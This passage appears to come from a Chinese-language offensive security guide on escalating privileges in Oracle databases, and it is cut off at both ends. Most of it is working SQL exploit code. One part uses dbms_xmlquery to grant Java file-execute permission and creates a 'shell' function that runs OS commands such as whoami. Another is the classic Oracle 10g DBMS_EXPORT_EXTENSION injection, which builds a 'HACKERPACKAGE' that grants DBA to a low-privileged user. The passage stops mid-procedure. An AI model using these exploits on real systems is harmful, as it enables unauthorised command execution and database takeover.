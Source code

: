 3、使用JAVA获取权限

```sql
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''begin dbms_java.grant_permission( ''''SYSTEM'''', ''''SYS:java.io.FilePermission'''', ''''<<ALL FILES>>'''',''''EXECUTE'''');end;''commit;end;') from dual;
```

4、创建执行命令的函数select 

```sql
dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace function shell(p_cmd in varchar2) return varchar2 as language java name ''''LinxUtil.runCMD(java.lang.String) return String''''; '';commit;end;') from dual;
```

5、执行命令

```sql
SQL> select shell('whoami') from dual;
```

### 三、Oracle 10g 经典漏洞提权

> **`oracle < 10.2.0.4`的版本有此漏洞**
>
> 在 Oracle 10g 中，GET_DOMAIN_INDEX_TABLES 函数存在注入漏洞
>
> 该函数位于 DBMS_EXPORT_EXTENSION 包中，执行权限隶属于 sys。

假设**test**是一个只有CONNECT和RESOURCE两个权限较低的角色

```sql
select * from user_role_privs;    --首先，查询用户权限配置

--创建程序包
Create or REPLACE
PACKAGE HACKERPACKAGE AUTHID CURRENT_USER
IS
FUNCTION ODCIIndexGetMetadata (oindexinfo SYS.odciindexinfo,P3 VARCHAR2,p4 VARCHAR2,env
SYS.odcienv)
RETURN NUMBER;
END;
/

--创建程序包体
Create or REPLACE PACKAGE BODY HACKERPACKAGE
IS
FUNCTION ODCIIndexGetMetadata (oindexinfo SYS.odciindexinfo,P3 VARCHAR2,p4 VARCHAR2,env
SYS.odcienv)
RETURN NUMBER
IS
pragma autonomous_transaction;
BEGIN
EXECUTE IMMEDIATE 'GRANT DBA TO test';
COMMIT;
RETURN(1);
END;
END;
/

--创建过程
DECLARE
INDEX_NAME VARCHAR2(200);
INDEX_SCHEMA VARCHAR2(200);
TYPE_NAME VARCHAR2(200);
TYPE_SCHEMA VARCHAR2(200);
VERSION VARCHAR2(200);
```